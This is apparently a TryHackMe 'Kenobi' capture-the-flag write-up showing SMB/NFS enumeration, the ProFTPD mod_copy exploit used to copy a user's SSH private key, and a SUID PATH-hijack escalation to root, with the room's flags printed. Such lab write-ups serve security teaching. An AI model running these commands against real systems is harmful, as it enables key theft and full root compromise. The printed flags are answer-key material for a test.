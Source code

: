 # Kenobi

```bash
export IP=10.10.63.26
```

![kenobi.jpg](imgs/kenobi.jpg)


## Scans

### Nmap
Command:
```bash
nmap -vv -sC -sV -oN scans/nmap.initial $IP
```

Open Ports found:
```
21 -- ftp
22 -- ssh
80 -- webpage
111 -- RPC -- Remote Procedure Call
139 -- smb
445 --smb
2049
```

/robots.txt
```
User-agent: *
Disallow: /admin.html
```
IT'S A TRAP

![itsatrap.gif](imgs/itsatrap.gif)

### Samba

**Samba** allows users to acces and use files, printers, and other commonly shared resources over the internet.
It is often referred to as a *network file system*.

Samba is based on the **SMB** protocol -- Server Message Block

This script scans for samba shares
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.63.26
```

found 3 shares, most importantly: `anonymous`

this connects to the samba client with the `anonymous` user, similar to the `ftp` command
```bash
smbclient //$IP/anonymous
```

found `log.txt` file inside shares

this command downloads the available shares, similar to `wget`
```bash
smbget -R smb://$IP/anonymous
```

`log.txt` shows that an id_rsa key for user `kenobi` exists

this nmap script enumerates port 111's file system, to show available mount points
```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.63.26
```

found `/var` as available


### Gobuster
```bash
gobuster dir -u 10.10.63.26 -w /opt/directory-list-2.3-medium.txt
```

Found Directories:
```
/server-status -- 403
```

nothing useful


## Initial Access with ProFtpd

* **ProFtpd** is a free/open-source FTP server, compatible with Unix and Windows. It has shown vulnerabilities in past versions.

    - This machine is running proftpd v/1.3.5, vulnerable to the mod_copy module exploit

    - the mod_copy module implements the commands `SITE CPFR` and `SITE CPTO` to copy files/directories across a server

netcatting into the macine and using the mod_copy module to copy `kenobi`'s id_rsa
```bash
nc 10.10.63.26 21

SITE CPFR /home/kenobi/.ssh/id_rsa

SITE CPTO /var/tmp/id_rsa
```

mounting directory to our local machine
```bash
mkdir /mnt/kenobiNFS
sudo mount 10.10.64.26:/var /mnt/kenobiNFS
```

after copying id_rsa, remember to set file permission
```bash
chmod 600 id_rsa
```


## SSH into Machine
```bash
ssh -i id_rsa kenobi@10.10.63.26
```

**User Flag Found:** `d0b0f3f53b6caa532a83915e19224899`


## Privilege Escalation with Path Variable Manipulation

using the `find` command to look for files with elevated privileges
```bash
find / -perm -u=s -type f 2>/dev/null
```

and seeing `/usr/bin/menu` which runs the `curl` and `uname` command without a full path

PrivEsc Command:
```bash
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

because we copied the /bin/sh shell, named it `curl`, and gave it the correct file permission/path...
running the `/usr/bin/menu`, and calling the `curl` binary would call our new shell instead

and since the file is being run as root, selecting option `1` gives a root shell

**Root Flag Found**: `177b3cd8562289f37382721c28381f02`

---
[back to TryHackMe main page](thm.md)

[back to Index/Table of Contents](index.md)
